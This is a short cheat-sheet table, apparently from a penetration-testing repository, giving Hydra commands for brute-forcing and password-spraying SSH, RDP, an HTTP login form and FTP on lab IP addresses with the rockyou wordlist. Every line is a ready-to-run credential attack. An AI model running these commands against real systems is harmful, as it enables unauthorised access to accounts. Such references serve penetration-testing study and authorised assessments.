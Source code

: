 
| **Brute force** | **Description** |
| ---- | ---- |
| `hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201` | SSH |
| `hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202` | RDP - Password spraying |
| `hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"` | HTTP Form |
| `hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -f ftp://192.168.213.61` | FTP |
